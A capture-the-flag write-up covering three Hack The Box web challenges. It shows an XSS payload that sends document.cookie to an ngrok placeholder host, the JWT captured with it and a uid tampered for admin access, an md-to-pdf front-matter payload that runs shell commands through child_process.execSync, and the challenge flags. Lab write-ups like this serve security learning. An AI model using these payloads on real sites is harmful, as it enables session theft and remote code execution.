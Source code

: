 # web

## Amidst Us
> Solved by : thewhiteh4t, Starry-Lord, Taz34, Avantika, Legend

![](https://i.imgur.com/r7mbpDi.png)

The downloadable files gives us a few clues in the files in requirements.txt and util.py:

* It’s a python environment
* It uses a vulnerable version of the python Pillow library

![](https://i.imgur.com/oeEjFBA.png)

https://github.com/python-pillow/Pillow/pull/5923

link: [python-pillow/Pillow#5923](https://github.com/python-pillow/Pillow/pull/5923)

This exchange provided some great insights on how to trigger SSRF

In util.py we find eval is being used on the data provided in the POST request, which allows us to upload a random image with background rgb parameters.

After a couple trial and errors we managed to grab the flag.txt and send it to our webhook by replacing one of the RGB values of “background”:

![](https://i.imgur.com/8kemcYF.png)

```
HTB{i_slept_my_way_to_rce}
```

----------

## Krpytos Support
> Solved By : thewhiteh4t

In this one we land on a support page where we can send a POST request, it also contains a backend button which takes us to a login page…

first I thought its a cookie stealing challenge so I send the following payload : 

```html
<img src=x onerror=this.src='<NGROK-LINK-HERE>/?'+document.cookie;>
```

and I got a JWT : 

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI
```

decoded :

```
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652534885
}
```

and I got two interesting things here, now the cookie did not work for login for some reason so I went back to enum and found an API endpoint :

```
/api/users/update
```

using XHR I sent the following request to change the password :

![](https://i.imgur.com/mVy9Zs9.png)

logged in with the new password :

![](https://i.imgur.com/lkqwQPZ.png)

but moderator doesn’t have the flag so I had to escalate to admin…

using the same payload above I just changed the `uid` from 100 to 1 and logged in again, I could have got it one go but well… 

![](https://i.imgur.com/JI1lO3O.png)

----------

## Blinker fluid
> Solved By : Bobbysox, Legend, Starrylord, thewhiteh4t

In blinker fluid challenge our markdown input gets converted into a PDF file available for download.

in the site source we checked `package.json` file :

```json
{
        "name": "blinker-fluids",
        "version": "1.0.0",
        "description": "",
        "main": "index.js",
        "scripts": {
                "start": "node index.js"
        },
        "keywords": [],
        "author": "rayhan0x01",
        "license": "ISC",
        "dependencies": {
                "express": "^4.17.3",
                "md-to-pdf": "^4.1.0",
                "nunjucks": "3.2.3",
                "sqlite-async": "1.1.3",
                "uuid": "8.3.2"
        },
        "devDependencies": {
                "nodemon": "^1.19.1"
        }
}
```

interesting things in this file are : 

```
"md-to-pdf": "^4.1.0"
"nunjucks": "3.2.3"
```

we quickly found the following CVE for `md-to-pdf` : 

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

payload as shown in the link : 

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

the payload did not work for us as it is so we looked for more info on the same and found this : 

https://github.com/11ty/eleventy/issues/1208


[11ty/eleventy#1208](https://github.com/11ty/eleventy/issues/1208)

so basically nunjucks was having issues with single line payload so we settled on the following : 

```
---js
((require("child_process")).execSync("cat ../flag.txt > static/invoices/rce.txt"))
---
```

line 1 and 3 needed to be exactly as above for it to work and we redirected flag to a file in invoices directory…

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
